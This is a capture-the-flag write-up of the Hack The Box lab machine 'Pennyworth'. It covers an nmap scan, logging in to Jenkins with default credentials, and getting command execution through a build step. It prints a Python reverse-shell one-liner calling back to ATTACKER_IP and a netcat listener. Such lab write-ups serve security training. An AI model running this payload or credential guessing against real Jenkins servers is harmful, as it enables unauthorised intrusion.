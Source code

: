 ```yaml
---
title: "[Starting Point] Tier 1: Pennyworth"
tags:
  - Very Easy
  - Linux
  - Jenkins
---
```


|  | Difficulty |  |  IP Address   |  | Room Link |  |
|--| :--------: |--|:------------: |--| :--------:|--|
|  |  Very Easy |  | 10.129.82.175 |  | [Tier 1: Pennyworth](https://app.hackthebox.com/starting-point) |  |

---

### [ What does the acronym CVE stand for? ]

Common Vulnerabilities and Exposures

---

### [ What do the three letters in CIA, referring to the CIA triad in cybersecurity, stand for? ]

Confidentiality, Integrity, Availability

---

### [ What is the version of the service running on port 8080? ]

Let's run an nmap scan on the target machine. We load in standard scripts (-sC) and enable version enumeration (-sV).

```
sudo nmap -sC -sV -vv -T4 10.129.82.175
```

![screenshot1](../assets/images/pennyworth/screenshot1.png)

From the results, we can see that only 1 port is open: **8080 (HTTP)**

The service version running is: **Jetty 9.4.39.v20210325**

---

### [ What version of Jenkins is running on the target? ]

Let's visit `http://10.129.82.175:8080`

![screenshot2](../assets/images/pennyworth/screenshot2.png)

We are brought to a Jenkins login page.

I tried common admin credentials, such as **admin:admin** and **root:root**. 

Eventually, I came across a set of creds that allowed me to log in:

> root : password

![screenshot3](../assets/images/pennyworth/screenshot3.png)

From the bottom of the page, we can see the Jenkins version: **2.289.1**

---

### [ What type of script is accepted as input on the Jenkins Script Console? ]

![screenshot4](../assets/images/pennyworth/screenshot4.png)

**Groovy** script is accepted as input.

---

### [ What would the "String cmd" variable from the Groovy Script snippet be equal to if the Target VM was running Windows? ]

cmd.exe

---

### [ What is a different command than "ip a" we could use to display our network interfaces' information on Linux? ]

`ifconfig`

---

### [ What switch should we use with netcat for it to use UDP transport mode? ]

`-u`

---

### [ What is the term used to describe making a target host initiate a connection back to the attacker host? ]

reverse shell

---

### [ Submit root flag ]

We can use Jenkin's Groovy Script Console to open a reverse shell back to us (the attacker).

First, we click on the '**Groovy Script**' project on the dashboard. This will bring us to the following page:

![screenshot5](../assets/images/pennyworth/screenshot5.png)

Next, we click on **Configure** on the left side-bar, which will bring us to the configuration page for the Groovy Script Console.

Scroll down to the **Build** section. Click on **Add build step** > **Execute shell**. Let's try to run a simple `id` command:

![screenshot6](../assets/images/pennyworth/screenshot6.png)

After saving, we will be brought back to the main page.

Click on **Build Now** on the left side-bar. After some time, a new entry should appear at the bottom left, under **Build History**:

![screenshot7](../assets/images/pennyworth/screenshot7.png)

*(There should only be 1 entry, I've already built multiple times)*

Click on the new entry, then click on **Console Output**:

![screenshot8](../assets/images/pennyworth/screenshot8.png)

Nice! The `id` command was successfully run and we have achieved remote code execution. We can now open a reverse shell back to our machine. 

*(I'll be using the Python payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))*

Replace `id` in the build settings with:

```
export RHOST="ATTACKER_IP";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Next, set up a netcat listener running on your specified port:

```
nc -lvnp 4444
```

Finally, build the project.

![screenshot9](../assets/images/pennyworth/screenshot9.png)

The reverse shell is opened and we're in!

The **root flag** can be found in /root:

![screenshot10](../assets/images/pennyworth/screenshot10.png)
